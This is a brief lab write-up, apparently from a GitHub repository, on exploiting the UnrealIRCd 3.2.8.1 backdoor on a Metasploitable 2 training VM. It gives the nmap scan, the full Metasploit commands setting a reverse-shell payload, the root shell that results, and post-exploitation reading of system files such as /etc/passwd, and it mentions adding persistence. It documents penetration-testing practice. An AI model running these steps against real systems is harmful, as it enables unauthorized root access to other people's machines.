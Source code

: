 # Exploit Report: UnrealIRCd 3.2.8.1 Backdoor (CVE-2010-2075)

**Target**: Metasploitable 2  
**Attacker**: Kali Linux (2025.1c)  
**Method**: Remote Code Execution (RCE) via Backdoored IRC Daemon  
**Date**: 2025-05-17

---

## 🔍 Recon & Enumeration

UnrealIRCd was discovered during a service scan using Nmap:

```bash
nmap -sV 192.168.56.102

---

## Result 

6667/tcp open  irc     UnrealIRCd

---

## Exploitation Steps: Used Metasploit to exploit the backdoor 

msfconsole

search unreal
use exploit/unix/irc/unreal_ircd_3281_backdoor

set RHOSTS 192.168.56.102
set RPORT 6667
set LHOST 192.168.56.101
set LPORT 4444
set payload cmd/unix/reverse
exploit

## Shell returned: 

whoami
# root

---

## Post Exploitation: confirmed environment after gaining a root shell:

uname -a
cat /etc/issue

## explored /etc/passwd, cron jobs, and services 
## Could now drop a persistence mechanism or escalate into more advance enumeration

